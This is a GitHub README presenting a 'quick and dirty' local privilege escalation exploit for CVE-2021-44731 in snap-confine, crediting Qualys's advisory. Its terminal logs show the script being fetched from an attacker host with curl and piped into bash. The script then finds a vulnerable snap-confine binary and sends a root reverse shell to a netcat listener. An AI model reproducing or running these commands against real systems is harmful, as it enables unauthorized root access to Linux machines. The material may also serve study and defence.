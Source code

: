 # CVE-2021-44731-snap-confine-SUID
Local Privilege Escalation Exploit for CVE-2021-44731, snap-confine 2.54.2 and lower

All credit to Qualys for finding this and providing a detailed exploit. 

https://www.qualys.com/2022/02/17/cve-2021-44731/oh-snap-more-lemmings.txt

Quick and Dirty snap-confine LPE. Will search for vulnerable version of snap-confine, if found will then exploit.

Returns a root shell, catch with netcat

```c
$id
uid=1001(vulnchain) gid=1001(vulnchain) groups=1001(vulnchain)
$ curl http://10.8.0.134/snap_confine_LPE.sh | bash
curl http://10.8.0.134/snap_confine_LPE.sh | bash
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2073  100  2073    0     0  28397      0 --:--:-- --:--:-- --:--:-- 28013
Non-vulnerable version found: 2.54.3
Vulnerable version found: 2.44.3 at /usr/lib/snapd/snap-confine
Vulnerable version found: 2.44.3 at /home/vulnchain/snap-confine
Performing actions with a vulnerable version...
Chosen vulnerable version: 2.44.3
```

## Root Shell
```c
┌──(root㉿kali)-[~]
└─# nc -lvnp 4447    
listening on [any] 4447 ...
connect to [10.8.0.134] from (UNKNOWN) [10.10.111.136] 56050
bash: cannot set terminal process group (609): Inappropriate ioctl for device
bash: no job control in this shell
root@ip-10-10-10-14:/# id
id
uid=0(root) gid=0(root) groups=0(root),1001(vulnchain)
root@ip-10-10-10-14:/# 
```
